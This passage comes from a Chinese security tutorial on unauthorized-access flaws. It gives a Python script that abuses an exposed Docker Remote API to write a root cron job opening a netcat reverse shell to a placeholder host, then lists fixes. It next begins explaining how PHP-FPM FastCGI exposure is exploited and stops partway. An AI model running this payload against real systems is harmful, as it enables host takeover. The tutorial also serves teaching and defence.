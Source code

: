```
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e 
/bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 
'rw'}})
```

**修复方法**

1）配置 acl，Docker Remote API 不要绑定到 0.0.0.0。  
2）修改 docker swarm 的认证方式，使用 TLS 认证。

**PHP-FPM Fastcgi 未授权访问漏洞**

**Fastcgi**

    Fastcgi 是一个通信协议，和 HTTP 协议一样，都是进行数据交换的一个通道。HTTP 协议是浏览器和服务器中间件进行数据交换的协议，浏览器将 HTTP 头和 HTTP 体用某个规则组装成数据包，以 TCP 的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以 HTTP 协议的规则打包返回给服务器。类比 HTTP 协议来说，fastcgi 协议则是服务器中间件和某个语言后端进行数据交换的协议

**PHP-FPM**

    PHP-FPM 是一个 fastcgi 协议解析器，Nginx 等服务器中间件将用户请求按照 fastcgi 的规则打包好传给 FPM。FPM 按照 fastcgi 的协议将 TCP 流解析成真正的数据。PHP-FPM 默认监听 9000 端口，如果这个端口暴露在公网，则我们可以自己构造 fastcgi 协议，和 fpm 进行通信。  
用户访问 http://127.0.0.1/index.php?a=1&b=2，如果 web 目录是 / var/www/html，那么 Nginx 会将这个请求变成如下 key-value 对：

```
{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '12345',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

    这个数组其实就是 PHP 中 $_SERVER 数组的一部分，也就是 PHP 里的环境变量。但环境变量的作用不仅是填充 $_SERVER 数组，也是告诉 fpm：“我要执行哪个 PHP 文件”。  
    PHP-FPM 拿到 fastcgi 的数据包后，进行解析，得到上述这些环境变量。然后，执行 SCRIPT_FILENAME 的值指向的 PHP 文件，也就是 / var/www/html/index.php

**security.limit_extensions 配置**

    此时，SCRIPT_FILENAME 的值就格外重要了。因为 fpm 是根据这个值来执行 php 文件的，如果这个文件不存在，fpm 会直接返回 404。在 fpm 某个版本之前，我们可以将 SCRIPT_FILENAME 的值指定为任意后缀文件，比如 / etc/passwd。但后来，fpm 的默认配置中增加了一个选项 security.limit_extensions。其限定了只有某些后缀的文件允许被 fpm 执行，默认是. php。所以，当我们再传入 / etc/passwd 的时候，将会返回 Access denied。由于这个配置项的限制，如果想利用 PHP-FPM 的未授权访问漏洞，首先就得找到一个已存在的 PHP 文件。我们可以找找默认源安装后可能存在的 php 文件，比如 / usr/local/lib/php/PEAR.php
